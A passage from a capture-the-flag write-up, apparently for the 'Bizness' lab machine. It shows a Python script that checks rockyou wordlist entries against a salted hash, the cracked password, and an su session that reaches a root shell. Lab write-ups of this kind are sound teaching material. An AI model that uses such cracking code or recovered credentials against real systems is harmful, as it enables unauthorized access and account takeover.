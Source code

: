 ```python
    m.update(bytes_password)

    encoded = base64.urlsafe_b64encode(m.digest()).decode().replace('+', '.')
    encoded = encoded[:-1]
    #print(encoded)
    return encoded

def main():
    hashed, salt = toHashed(hash)
    with open(file='/usr/share/wordlists/rockyou.txt', errors='replace', mode='r') as rockyou:
        for word in rockyou:
            word = word.replace('\n', '')
            cryptedBytes = getCryptedBytes(salt, bytearray(word.encode()))
            if hashed == cryptedBytes:
                print(f"Password found: {word}")
                sys.exit(0)

if __name__ == "__main__":
    main()
```

The script worked and the hash was cracked. The password is: "monkeybizness".

![](img/bizness9.png)

All that remains is to see if "monkeybizness" is equivalent to the root password.

```shell
ofbiz@bizness:/opt/ofbiz/runtime/data$ su root
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
```
